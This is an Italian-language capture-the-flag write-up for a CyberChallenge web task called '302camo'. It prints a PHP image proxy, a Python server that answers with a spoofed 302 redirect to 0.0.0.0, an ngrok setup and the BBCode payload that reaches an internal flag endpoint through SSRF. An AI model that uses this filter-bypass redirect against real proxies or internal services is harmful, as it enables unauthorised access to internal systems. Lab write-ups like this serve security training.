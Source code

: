# Writeup: WS_1.06 - 302camo

## Overview
- **Categoria**: Web  
- **Autore**: bonaff  
- **Difficoltà**: 497  
- **Stato**: Up (last checked: 5 minutes ago)  
- **URL**: [http://302camo.challs.cyberchallenge.it](http://302camo.challs.cyberchallenge.it)

## Descrizione 📝
La challenge mostra un semplice **PHP blog** in cui si possono inserire post con un formato **BBCode** che include tag come `[img]URL[/img]`. Ogni immagine viene caricata tramite `camo.php`, che effettua alcune verifiche:
1. **Blocca** l’accesso a `127.x.x.x` (niente localhost).
2. **Verifica** che il `Content-Type` della risorsa remota sia un’immagine, fra un ristretto elenco (`image/png`, `image/jpg`, `image/svg`, `image/gif`).

L’obiettivo è accedere alla risorsa interna `/get_flag.php`, che non è direttamente esposta su internet, sfruttando la logica di `camo.php`.

## Soluzione 🎯

### 1. Analisi di `camo.php`
```php
$hostname = parse_url($url, PHP_URL_HOST);
$ip = gethostbyname($hostname);

if(strncmp($ip, '127', 3) === 0){
    die('no localhost!');
}

// ...
$headers = $http_response_header;
$whitelist = ['image/png', 'image/jpg', 'image/svg', 'image/gif'];

foreach($headers as $header){
   if(startsWith($header, 'Content-Type')){
        $value = substr($header, strlen('Content-Type: '));
        if(in_array($value, $whitelist)){
            header('Content-Type: ' . $value);
            break;
        }else{
            die('File type not permitted');
        }
    }
}
echo $response;
```
`camo.php` recupera l’URL fornito, controlla l’IP risolto (niente `127.x.x.x`), e assicura che il `Content-Type` remoto sia un’immagine.

### 2. L’Idea del Redirect (HTTP 302)
Possiamo sfruttare un **redirect** verso `0.0.0.0/get_flag.php` (che è un alias di `127.0.0.1`, ma non inizia con `127`, e quindi non viene bloccato). Tuttavia, dobbiamo **fingere** che la risorsa sia un’immagine (es. `image/svg`).

### 3. Setup di un Server Intermedio
Usiamo **ngrok** per esporre localmente un server HTTP:
```bash
ngrok http 8000
```
Poi creiamo uno **script Python** che, ogni volta che riceve una richiesta, risponde con:
1. **HTTP/1.1 302 Found**  
2. **Location**: `http://0.0.0.0/get_flag.php`  
3. **Content-Type**: `image/svg`  

```python
import http.server
import socketserver

class CustomTCPServer(socketserver.TCPServer):
    allow_reuse_address = True

class CustomHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header("Content-Type", "image/svg")
        self.send_header("Location", "http://0.0.0.0/get_flag.php")
        self.end_headers()

if __name__ == "__main__":
    PORT = 8000
    with CustomTCPServer(("", PORT), CustomHandler) as httpd:
        print(f"Server in esecuzione sulla porta {PORT}...")
        httpd.serve_forever()
```

### 4. Inserimento del Payload nel Blog
Nel blog, creiamo un nuovo post con il tag `[img]` che punta al nostro URL ngrok (ad es. `https://abcd-1234-xyz.ngrok-free.app`):
```
[img]https://abcd-1234-xyz.ngrok-free.app[/img]
```
Quando `camo.php` recupera quest’immagine, il nostro server restituirà un **302** che punta a `http://0.0.0.0/get_flag.php` con `Content-Type: image/svg`. `camo.php` non bloccherà `0.0.0.0`, e troverà un header `Content-Type: image/svg`, considerandolo valido.

### 5. Risultato: Flag
Il server interno (localhost) ci restituirà quindi un file `camo.php`, con la flag:

## Flag 🏁
```
CCIT{PHP_s0met1ms_1ts_funn1}
```

## Lezioni Apprese 📚
1. **Bypass IP Filter**: Usare `0.0.0.0` al posto di `127.0.0.1` è un classico trucco.  
2. **Content-Type Spoofing**: Restituire un header `Content-Type` whitelisted per ingannare `camo.php`.  
3. **HTTP 302**: Un redirect opportunamente configurato permette di puntare a risorse interne al server.

## Tools Utilizzati 🛠️
- **Python**: Per creare un server che risponde con 302 e `Content-Type: image/svg`.  
- **ngrok**: Per esporre il server localmente.  
- **Browser**: Per inserire il post e visualizzare la flag.

---

*Writeup by Luca Crippa - Last Updated: 2024*
